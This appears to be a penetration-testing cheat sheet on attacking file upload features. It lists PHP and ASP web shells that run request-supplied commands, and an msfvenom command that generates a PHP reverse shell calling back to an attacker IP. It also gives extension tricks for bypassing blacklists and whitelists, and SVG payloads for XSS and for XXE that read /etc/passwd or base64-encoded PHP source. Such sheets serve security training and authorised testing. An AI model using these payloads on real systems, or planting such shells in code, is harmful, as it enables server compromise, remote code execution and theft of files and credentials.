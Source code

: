 # File Upload

### Web Shells

| **Web Shell**                                                                           | **Description**                       |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell            |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

### Bypasses

| **Command**                                                                                                                                | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| **Client-Side Bypass**                                                                                                                     |                                              |
| `[CTRL+SHIFT+C]`                                                                                                                           | Toggle Page Inspector                        |
| **Blacklist Bypass**                                                                                                                       |                                              |
| `shell.phtml`                                                                                                                              | Uncommon Extension                           |
| `shell.pHp`                                                                                                                                | Case Manipulation                            |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions                       |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)                | List of ASP Extensions                       |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)                          | List of Web Extensions                       |
| **Whitelist Bypass**                                                                                                                       |                                              |
| `shell.jpg.php`                                                                                                                            | Double Extension                             |
| `shell.php.jpg`                                                                                                                            | Reverse Double Extension                     |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`                                                                                          | Character Injection - Before/After Extension |
| **Content/Type Bypass**                                                                                                                    |                                              |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)                             | List of Web Content-Types                    |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)                    | List of All Content-Types                    |
| [File Signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures)                                                                | List of File Signatures/Magic Bytes          |

### Limited Uploads

| **Potential Attack** | **File Types**          |
| -------------------- | ----------------------- |
| `XSS`                | HTML, JS, SVG, GIF      |
| `XXE`/`SSRF`         | XML, SVG, PDF, PPT, DOC |
| `DoS`                | ZIP, JPG, PNG           |

#### XSS

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

#### XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Read source code in PHP web apps

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
